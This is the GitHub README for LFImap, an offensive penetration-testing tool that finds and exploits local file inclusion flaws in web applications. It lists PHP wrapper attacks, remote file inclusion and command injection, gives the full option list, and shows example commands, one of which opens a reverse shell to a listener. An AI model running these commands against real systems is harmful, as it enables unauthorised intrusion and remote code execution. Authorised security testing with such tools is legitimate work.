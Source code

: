 # LFImap
## Local file inclusion discovery and exploitation tool

This project is in pre alpha. Release 1.0 coming soon.  
Inspired by [SQLmap](https://github.com/sqlmapproject/sqlmap)!

### Main features
- Filter wrapper for arbitrary file inclusion
- Data wrapper for remote command execution
- Input wrapper for remote command execution
- Expect wrapper for remote command execution
- File wrapper for arbitrary file inclusion
- Path truncation for arbitrary file inclusion
- Remote file inclusion for code execution
- Command injection for remote command execution
- Full control over how the requests are sent
    - Test with arbitrary HTTP method
    - Test with multiple specified HTTP headers
    - Specification of custom injection point (default 'PWN') in headers or GET/form-data line
    - Specification of delay after each request
    - Specifying of web proxy to send requests through
    - Option to output each request and response to a log file
- Quick mode that uses fewer payloads to test each endpoint
- Support for payload manipulation via url and base64 encoding(s)
- Support for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### -h, --help

```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <data>] [-H <header>] [-M <method>]
                 [-P <proxy>] [--useragent <agent>] [--referer <referer>] [--placeholder <name>]
                 [--delay <milis>] [--http-ok <number>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r]
                 [-c] [-file] [-heur] [-a] [-n <U|B>] [-q] [-x] [--lhost <lhost>] [--lport <lport>]
                 [-wT <path>] [--use-long] [--log <file>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]              Specify url, Ex: "http://example.org/vuln.php?param=PWN"
  -F [urlfile]          Specify url wordlist (every line should have --param|"PWN")

GENERAL OPTIONS:
  -C <cookie>           Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <data>             Specify HTTP request form data
  -H <header>           Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -M <method>           Specify HTTP request method to use for testing
  -P <proxy>            Specify proxy. Ex: "http://127.0.0.1:8080"
  --useragent <agent>   Specify HTTP user agent header value
  --referer <referer>   Specify HTTP referer header value
  --placeholder <name>  Specify different testing placeholder value (default "PWN")
  --delay <milis>       Specify delay in miliseconds after each request
  --http-ok <number>    Specify http response code(s) to treat as valid
  --no-stop             Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter          Attack using filter wrapper
  -i, --input           Attack using input wrapper
  -d, --data            Attack using data wrapper
  -e, --expect          Attack using expect wrapper
  -t, --trunc           Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi             Attack using remote file inclusion
  -c, --cmd             Attack using command injection
  -file, --file         Attack using file wrapper
  -heur, --heuristics   Test for miscellaneous vulns using heuristics
  -a, --all             Use all available testing methods

PAYLOAD OPTIONS:
  -n <U|B>              Specify additional payload encoding(s). "U" for URL, "B" for base64
  -q, --quick           Perform quick testing with few payloads
  -x, --exploit         Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>       Specify local ip address for reverse connection
  --lport <lport>       Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>            Specify path to wordlist for truncation test modality
  --use-long            Use "wordlists/long.txt" wordlist for truncation test modality

OUTPUT OPTIONS:
  --log <file>          Output all requests and responses to specified file

OTHER:
  -v, --verbose         Print more detailed output when performing attacks
  -h, --help            Print this help message
  
```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
